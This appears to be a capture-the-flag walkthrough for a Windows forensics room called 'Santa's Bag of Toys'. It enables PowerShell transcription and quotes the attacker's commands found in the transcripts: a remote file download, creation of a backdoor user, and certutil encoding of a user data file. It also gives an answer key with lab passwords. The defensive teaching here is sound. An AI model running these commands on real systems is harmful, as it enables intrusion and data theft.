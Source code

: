 ```yaml
---
title: Santa's Bag of Toys (Day 8)
sidebar_position: 8
---
```

## Topic: Special by John Hammond

Add powershell transcription: 
```
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0x1 /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v OutputDirectory /t REG_SZ /d C:/ /f
reg add HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableInvocationHeader /t REG_DWORD /d 0x1 /f
```

Find malware being downloaded in one of the powershell transcription:  
`(New-Object Net.WebClient).DownloadFile("https://sam.gleske.net/uharc/uharc-cmd-install.exe", "C:\`  
Find user being created in another transcript:  
`net user s4nta grinchstolechristmas /add`  
Using certutil to encode a file:  
`certutil.exe -encode .\UsrClass.dat santa.dat`  

### Questions:
1. _**If you want to RDP into the machine, start the AttackBox and enter the following into a terminal: xfreerdp /u:Administrator /p:grinch123! /v:10.10.24.161 -**   The credentials for the machine are Administrator as the username, and grinch123! as the password.  
2. **What operating system is Santa's laptop running ("OS Name")?**  
answer: `Microsoft Windows 11 Pro`  
3. **What was the password set for the new "backdoor" account?**  
answer: `grinchstolechristmas`  
4. In one of the transcription logs,  the bad actor interacts with the target under the new backdoor user account, and copies a unique file to the Desktop. Before it is copied to the Desktop, **what is the full path of the original file?**  
answer:`C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat`  
5. The actor uses a [Living Off The Land](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) binary (LOLbin) to encode this file, and then verifies it succeeded by viewing the output file. **What is the name of this LOLbin?**  
answer: `certutil.exe`  
6. Drill down into the folders and see if you can find anything that might indicate how we could better track down what this SantaRat really is. **What specific folder name clues us in that this might be publicly accessible software hosted on a code-sharing platform?**  
answer: `.github`  
7. Additionally, there is a unique folder named "Bag of Toys" on the Desktop! This must be where Santa prepares his collection of toys, and this is certainly sensitive data that the actor could have compromised. What is the name of the file found in this folder?  
answer: `bag_of_toys.zip`  
8. **What is the name of the user that owns the SantaRat repository?**  
answer: `grinchiest`  
9. Explore the other repositories that this user owns. **What is the name of the repository that seems especially pertinent to our investigation?**  
answer: `operation-bag-of-toys`  
10. **What is the name of the _executable_ that installed a unique utility the actor used to collect the bag of toys?**  
answer: `.\uharc-cmd-install.exe`  
11. Following this, the actor looks to have removed everything from the bag of toys, and added in new things like coal, mold, worms, and more!  **What are the contents of these "malicious" files (coal, mold, and all the others)?**  
answer: `GRINCHMAS`  
12. **What is the password to the original bag_of_toys.uha archive?** (You do not need to perform any password-cracking or bruteforce attempts)  
answer: `TheGrinchiestGrinchmasOfAll`  
13. **How many original files were present in Santa's Bag of Toys?**  
answer: `228`  
